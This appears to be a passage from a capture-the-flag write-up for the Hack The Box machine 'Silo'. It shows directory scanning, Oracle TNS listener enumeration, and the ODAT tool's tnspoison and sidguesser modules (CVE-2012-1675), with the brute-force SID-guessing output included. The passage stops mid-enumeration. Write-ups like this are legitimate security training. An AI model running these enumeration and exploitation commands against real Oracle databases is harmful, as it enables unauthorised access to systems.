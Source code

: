 ```bash

Extensions: php | HTTP method: GET | Threads: 50 | Wordlist size: 8929

Output File: /tools/dirsearch/reports/silo.htb-47001/-_21-08-30_09-07-18.txt

Error Log: /tools/dirsearch/logs/errors-21-08-30_09-07-18.log

Target: http://silo.htb:47001/

[09:07:18] Starting: 

Task Completed
```

There are two interesting things from these scans:

```
http://10.10.10.82/aspnet_client/
http://10.10.10.82:5985/wsman
```

The first URL gives me a permission denied, the last one just an empty page. I think that the webserver will not bring me any further.

### Port 1521 & 49159

---

On these ports runs the Oracle TNS listener. One port gives me the version: 11.2.0.2.0. I search for an exploit. I found the ODAT tool (Oracle database Attacking Tool):

[GitHub - quentinhardy/odat: ODAT: Oracle Database Attacking Tool](https://github.com/quentinhardy/odat)

Since 2016, there is a module called tnspoison, which can exploit CVE-2012-1675. You can also download the tool with this command: `sudo apt install odat`.

# Exploitation

---

I try the exploit found above. I run it:

```bash
┌──(user㉿KaliVM)-[/tools/odat]
└─$ python3 odat.py tnspoison -s silo.htb 
11:27:38 CRITICAL -: The server SID or Service Name must be given with 
the '-d SID' or '-n serviceName' option.
```

The SID can be found with this command:

```bash
┌──(user㉿KaliVM)-[/tools/odat]
└─$ odat sidguesser -s silo.htb                 

[1] (10.10.10.82:1521): Searching valid SIDs
[1.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server
[+] 'XE' is a valid SID. Continue...                 ################################### | ETA:  00:00:02 
[+] 'XEXDB' is a valid SID. Continue...              
100% |###################################################################################| Time: 00:05:12 
[1.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.10.10.82:1521)
100% |###################################################################################| Time: 00:00:10 
[1.3] Searching valid SIDs thanks to a brute-force attack on 2 chars now (10.10.10.82:1521)
```